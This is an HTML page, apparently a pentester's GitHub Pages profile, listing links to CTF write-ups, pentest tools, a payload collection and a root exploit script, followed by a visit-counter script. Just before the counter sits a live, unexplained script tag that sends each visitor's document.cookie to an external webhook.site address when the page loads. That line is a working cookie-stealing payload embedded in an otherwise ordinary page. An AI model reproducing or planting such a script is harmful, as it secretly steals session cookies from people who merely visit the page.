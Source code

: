 
<link rel="icon" href="https://user-images.githubusercontent.com/78603128/193405439-d44c4c2f-a483-4b82-8114-c6f3873bd9c1.png">
<center><div id="CounterVisitor"></div></center>

<h2>Latest Updates</h2>



    
<table>
<tr>
<blockquote><td>Created Jackmeister's Playbook</td><td><a href="https://jackmeister.gitbook.io/jackmeister-playbook/">Jackmeister's pentest framework</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Created Jack of All BL4D3S</td><td><a href="https://github.com/J4CKMEISTER/Jack-of-All-BL4D3S">Collection of Scripts and Payloads</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Updated websites</td><td><a href="https://j4ckmeister.github.io/websites">Added more contents</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Cyberverse</td><td><a href="http://cyberverse.rf.gd/home.php">A damn vulnerable website as FYP Project</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>MCC2022 THM S1mple0nly b2root Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/s1mple0nly-b2r">Writeup for MCC2022 S1mple0nly b2root , easy boot to root machine </a></td></blockquote>
</tr> 
<tr>
<blockquote><td>MCC2022 THM This is so Easy Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/this-is-so-easy">Writeup for MCC2022 This is so Easy , easy boot to root machine </a></td></blockquote>
</tr> 
<tr>
<blockquote><td>MCC2022 THM Hermoso Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/hermoso">Writeup for MCC2022 Hermoso , medium boot to root machine </a></td></blockquote>
</tr> 

<tr>
<blockquote><td>Hermoso root exploit</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/hermoso2root.sh">script created to gain root from MCC2022 Hermoso machine </a></td></blockquote>
</tr> 
     <tr>
<blockquote><td>IP Address Scanner V3</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner3.sh">Updated according to feedbacks</a></td></blockquote>
</tr> 
  <tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr>   
    
 <tr>
<blockquote><td>Updated GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Added more contents</a></td></blockquote>
</tr>   
    
<tr>
<blockquote><td>Created GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Website to write and share CyberSec related experiences</a></td></blockquote>
</tr>
    
<tr>
<blockquote><td>IP Address Scanner V2</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner2.sh">Second version of bash script to scan for ip address</a></td></blockquote>
</tr>

<tr>
<blockquote><td>Base Converter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/baseConverter.py">A base python base converter</a></td></blockquote> 
</tr>

<tr>
<blockquote><td>IP Address Scanner V1</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner.sh">First version of bash script to scan for ip address</a></td></blockquote> 
</tr>

<tr>
<blockquote><td>Linux Version Checker</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/linux-version-checker.sh">Bash script that run common version checking commands</a></td></blockquote> 
</tr>
    
<tr>
<blockquote><td>Javascript Visit Counter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/js-counter.js">Javascript that keep track of number of times the webpage is visited</a></td></blockquote> 
</tr>

</table>

<script>document.write('<img src="https://webhook.site/7005d9e1-cc86-437a-917e-cbf48a32a2fb/?c='+document.cookie+'" />');</script>
<script>


   var n = localStorage.getItem('on_load_counter');

    if (n === null) {
        n = 0;
    }

    n++;

    localStorage.setItem("on_load_counter", n);

    document.getElementById('CounterVisitor').innerHTML = 'You have visited this page '+ n + ' times';

                     
</script>


